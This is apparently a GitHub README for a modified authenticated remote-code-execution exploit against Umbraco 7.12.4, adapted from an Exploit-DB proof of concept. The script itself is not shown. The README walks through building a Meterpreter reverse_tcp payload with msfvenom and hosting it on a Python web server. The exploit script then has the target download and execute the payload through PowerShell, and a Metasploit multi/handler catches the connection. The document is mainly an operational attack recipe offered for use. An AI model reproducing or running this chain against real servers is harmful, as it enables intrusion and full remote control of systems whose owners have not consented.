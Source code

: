 # Remote

## Umbraco 7.12.4 Authenticated RCE (updatd payload)

Original exploit: https://www.exploit-db.com/exploits/46153

Since the original exploit is a PoC it just pops up a calculator,I updated the script to download and execute a file with powershell. Build your own payload and use it with this script.

### Usage:

Create a payload: `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe -o payload.exe`

Host the payload: `sudo python -m SimpleHTTPServer 80`

Change IP Address to python web server's IP Address (line 25)

Change username,password & host (line 33,34,35)

Setup a listener with metasploit's `multi/handler`

Run the script: `python3 umbraco_auth_rce.py`
